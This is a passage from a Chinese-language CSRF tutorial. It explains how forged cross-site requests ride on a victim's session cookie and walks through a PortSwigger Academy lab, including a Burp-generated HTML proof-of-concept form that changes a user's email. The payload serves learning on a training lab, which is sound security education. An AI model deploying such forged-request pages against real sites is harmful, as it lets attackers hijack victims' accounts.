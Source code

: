 如果受害用户访问攻击者的网页，那么将会发生以下情况：

-   攻击者的页面将触发对易受攻击网站的HTTP请求
-   如果用户登录到易受攻击的网站，他们的浏览器将自动在请求中包含他们的会话Cookie
-   易受攻击的网站将以正常方式处理请求，将其视为受害用户发出的请求并更改他们的电子邮件地址

## 漏洞示例

靶场地址：[https://portswigger.net/web-security/csrf/lab-no-defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，为了解决该靶场的难题，你需要使用CSRF攻击的HTML来更改查看者的电子邮件地址并将其上传到您的漏洞利用服务器，在演示过程中您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
进入靶场会看到一个更改邮箱的操作界面：  
[![](assets/1705890866-9b56331236ff83ea481afc9697f33863.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118103626-60ca0ebc-b5aa-1.png)  
设置新邮箱并使用burpsuite抓包，然后在burpsuite中生成CSRF载荷  
[![](assets/1705890866-b97e87ddc5c5a05adad7e1f0ecf5558c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118103651-6fa3ee44-b5aa-1.png)  
生成载荷如下：

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2600a5038f2056826ca6d300520025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
